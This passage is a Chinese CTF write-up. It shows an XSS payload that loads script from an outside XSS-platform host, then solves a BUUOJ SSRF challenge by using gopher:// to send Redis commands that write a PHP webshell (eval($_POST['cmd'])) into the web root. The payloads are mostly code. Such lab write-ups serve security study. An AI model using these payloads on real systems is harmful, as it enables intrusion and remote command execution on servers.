 选择平台[xssjs](https://xssjs.com/login/)，创建项目，选择默认模块，选择复制代码
```sh
<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='//ujs.ci/yyo';>
```
但是平台并没有收到期望信息。。。

### [SSFR](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202020%20%E7%8E%84%E6%AD%A6%E7%BB%84]SSRFMe)

```sh
http://17cf1dbf-a570-4fc2-b02b-f88141cc740d.node5.buuoj.cn:81/?url=http://127.0.0.1

http://127.0.0.1 is inner ip
```

```sh
http://17cf1dbf-a570-4fc2-b02b-f88141cc740d.node5.buuoj.cn:81/?url=http://0.0.0.0/hint.php
```

```sh
http://17cf1dbf-a570-4fc2-b02b-f88141cc740d.node5.buuoj.cn:81/?url=dict://0.0.0.0:6379/

string(39) "-NOAUTH Authentication required. +OK "
```
原始Redis
```sh
auth root 
config set dir /var/www/html/ 
config set dbfilename shell.php
set x <?php phpinfo(); ?>
save
```
一次URL编码成Gopher
```sh
gopher://127.0.0.1:6379/_auth%20root%0D%0Aconfig%20set%20dir%20/var/www/html/%0D%0Aconfig%20set%20dbfilename%20shell.php%0D%0Aset%20x%20%22%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%22%0D%0Asave%0D%0A
```
二次URL编码
```sh
gopher%3A%2F%2F127.0.0.1%3A6379%2F_auth%2520root%250D%250Aconfig%2520set%2520dir%2520%2Fvar%2Fwww%2Fhtml%2F%250D%250Aconfig%2520set%2520dbfilename%2520shell.php%250D%250Aset%2520x%2520%2522%253C%253Fphp%2520phpinfo%2528%2529%253B%2520%253F%253E%2522%250D%250Asave%250D%250A
```
访问shell.php发现有用。修改成一句话马。
```
auth root 
config set dir /var/www/html/ 
config set dbfilename shell.php
set x <?php @eval($_POST['cmd']);?>
save
```
```sh
gopher://127.0.0.1:6379/_auth%20root%0D%0Aconfig%20set%20dir%20/var/www/html/%0D%0Aconfig%20set%20dbfilename%20shell.php%0D%0Aset%20x%20%22%3C%3Fphp%20%40eval%28%24_POST%5B%27cmd%27%5D%29%3B%3F%3E%22%0D%0Asave%0D%0A

gopher%3A%2F%2F127.0.0.1%3A6379%2F_auth%2520root%250D%250Aconfig%2520set%2520dir%2520%2Fvar%2Fwww%2Fhtml%2F%250D%250Aconfig%2520set%2520dbfilename%2520shell.php%250D%250Aset%2520x%2520%2522%253C%253Fphp%2520%2540eval%2528%2524_POST%255B%2527cmd%2527%255D%2529%253B%253F%253E%2522%250D%250Asave%250D%250A
```
